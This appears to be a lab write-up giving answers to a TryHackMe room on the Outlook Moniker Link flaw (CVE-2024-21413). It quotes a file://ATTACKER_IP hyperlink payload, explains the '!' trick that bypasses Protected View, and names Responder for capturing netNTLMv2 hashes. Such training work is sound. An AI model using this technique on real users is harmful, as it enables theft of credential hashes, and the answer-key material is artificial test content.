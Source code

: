 > # Moniker Link (CVE-2024-21413)

## Summary
- [Summary](#summary)
  - [Task 1 - Introduction](#task-1---introduction)
  - [Task 2 - Moniker Link (CVE-2024-21413)](#task-2---moniker-link-cve-2024-21413)
  - [Task 3 - Exploitation](#task-3---exploitation)

### Task 1 - Introduction
1. What "Severity" rating has the CVE been assigned?<br>
    **Answer:** Critical

### Task 2 - Moniker Link (CVE-2024-21413)
1. What Moniker Link type do we use in the hyperlink?<br>
    > By using the file:// Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (<a href="file://ATTACKER_IP/test>Click me</a>). 

    **Answer:** file://

1. What is the special character used to bypass Outlook's "Protected View"?<br>
    > The vulnerability here exists by modifying our hyperlink to include the ! special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View.

    **Answer:** !

### Task 3 - Exploitation
1. What is the name of the application that we use on the AttackBox to capture the user's hash?<br>
    > Let’s use Responder to create an SMB listener on our attacking machine. For the THM AttackBox, the interface will be -I ens5

    **Answer:** responder 

1. What type of hash is captured once the hyperlink in the email has been clicked?<br>
    **Answer:** netNTLMv2
